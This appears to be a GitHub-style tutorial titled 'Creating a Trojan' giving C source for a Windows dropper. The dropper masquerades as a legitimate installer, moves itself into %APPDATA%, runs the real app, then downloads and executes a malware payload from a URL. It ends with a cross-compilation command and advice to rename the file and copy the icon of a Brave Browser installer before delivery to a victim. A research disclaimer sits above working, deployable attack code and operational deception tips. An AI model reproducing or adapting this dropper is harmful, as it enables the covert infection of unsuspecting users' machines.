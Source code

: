 # Creating a Trojan

## DISCLAIMER: This project was made for research purposes. Anything you do with this code is on you and is not my responsibility.

The main basis of this article will be to bundle a legitimate application with a malicious one. Here are the steps we will go through:
1. Code a dropper that will drop both the legitimate application & the malicious one. 
2. The dropper will then copy itself to another directory to hide it & then the dropped malicious application will overwrite & delete the dropper.

Let's start with defining the needed parameters for this function:

* legitimate_app  -> this is our legitimate application's file name to drop on the victim's machine
* legitimate_app_URL -> this is our legitimate application's URL to download it from
* malware_URL -> this is our malicious application's URL to download it from
* malware_app -> this is our malicious application's file name to drop on the victim's machine
* dropper_new_name -> this is the new name of our dropper. At first, our dropper will be masked to look like the legitimate application, but when it's executed, it will download the legitimate application & replace the dropper. This means we will have to move our dropper to a new location and give it a new name


Now, let's defining some variables we will be using when downloading & grabbing the legitimate application:

`
TCHAR current_dir[MAX_PATH]

TCHAR current_file[MAX_PATH]

TCHAR new_dir[MAX_PATH]
`
* current_dir will be used to grab the current directory & append the legitimate_app string to the end of it to build the location to drop the legitimate piece of software.
* current_file will store the current directory & name of the dropper. This will be the first parameter of the **MoveFileA** function
* new_dir will be used to build the location where the dropper will be moved to. This will be the 2nd parameter of the **MoveFileA** function

`
GetCurrentDirectory(MAX_PATH, current_dir);

strcat_s(current_dir, strlen(current_dir)+strlen(legitimate_app)+1, legitimate_app);

GetModuleFileNameA(NULL, current_file, MAX_PATH);

GetEnvironmentVariable("APPDATA", new_dir, MAX_PATH);

strcat_s(new_dir, strlen(new_dir)+strlen(dropper_new_name)+1,dropper_new_name);

int mresult = MoveFileA(current_file, new_dir);
`

1. This will store the current directory in current_dir 
2. This will concatenate the legitimate_app variable (the legitimate application's filename) to the current_dir variable
3. This will get the full path of the current running process & store it in current_file
4. This will grab the path of the environment variable "APPDATA" & store it in new_dir
5. the dropper's new file name is then concatenated to the new_dir variable
6. Then we move the dropper to the new directory which is %APPDATA% & rename it to whatever dropper_new_name is set to

`
HRESULT filedl = URLDownloadToFile(NULL, legitimate_app_URL, current_dir, 0, NULL);

if (filedl == S_OK) {

	HINSTANCE result = ShellExecuteA(NULL, "open", current_dir, NULL, NULL, 0);

}

else {
	
	printf("[!] Error with download\n");

}
`

Here we are simply downloading the legitimate application from the legitimate_app_URL variable & saving it to wherever current_dir points to. If the download is successful, we execute the legitimate software.

Now onto the next part of the code, downloading the malware & executing it.

The only variable we define here is:
`TCHAR maldir[MAX_PATH];`
which will be used to store the full directory of the malware being dropped.

`
GetEnvironmentVariable("APPDATA", maldir, MAX_PATH);

strcat_s(maldir, strlen(maldir)+strlen(malware_app)+1, malware_app);
`
1. Grabbing environment variable of APPDATA & storing it in maldir
2. Appending the desired file name of the malware that gets dropped to the maldir variable, creating a full path

`
HRESULT maldl = URLDownloadToFile(NULL, malware_URL, maldir, 0, NULL);

if (maldl == S_OK) {

	printf("[+] Successfully downloaded main malware\n");
    
    	HINSTANCE result2 = ShellExecuteA(NULL, "open", maldir, NULL, NULL, 0);
    
    	exit(0);
}

else {

	printf("[!] Error downloading main malware\n");

}
`
This is a repeat of earlier code, we're simply downloading the malware from the URL stored in malware_URL & saving it to the path stored in maldir. If the download succeeds, we execute it & then exit the dropper.

## Cross-Compilation
    `x86_64-w64-mingw32-gcc input.c -o output.exe -lurlmon`

Before delivering your dropper to your victim, be sure to rename it to the legitimate application's name. For example, if you were to have it masquerade as a Brave Browser installer, name the dropper file BraveBrowserSetUp.exe & change the icon of it to match the original.
